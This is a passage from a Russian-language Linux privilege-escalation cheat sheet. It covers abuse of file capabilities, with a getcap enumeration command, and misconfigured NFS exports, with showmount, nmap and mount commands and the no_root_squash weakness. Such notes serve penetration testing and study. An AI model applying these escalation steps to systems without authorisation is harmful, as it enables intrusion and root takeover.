Осталось дождаться, пока планировщик выполнит скрипт

## Capabilities

> средства для управления привилегиями, которые в традиционных Unix-подобных системах были доступны только процессам, запущенным с правами root (uid==0)

Этот механизм позволяет дать процессу права на выполнение каких-либо действий, недоступных обычному пользователю (например, изменение системного времени, прямой доступ к аппаратуре, использование зарезервированных портов TCP/UDP (< 1024), блокировка страниц в физической памяти), но в то же время не предоставлять этому процессу полный набор прав root.

Найти их можно с помощью:

```bash
getcap / -r 2>/dev/null
```

Подробнее: [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).

## Network File System

> протокол сетевого доступа к файловым системам, первоначально разработанный Sun Microsystems в 1984 году

За основу взят протокол вызова удалённых процедур (ONC RPC). Позволяет подключать (монтировать) удалённые файловые системы через сеть.


Показать список экспорта NFS:

```bash
showmount -e <target>
nmap –sV –script=nfs-showmount <target>
```

Примонтировать NFS:

```bash
mount -o rw,vers=2 <target>:<share> <local_directory>
```

*Root Squashing* — защита от повышения привилегий

Если установлена опция no_root_squash, то удаленный root может создавать файлы на NSF шаре как локальный root.
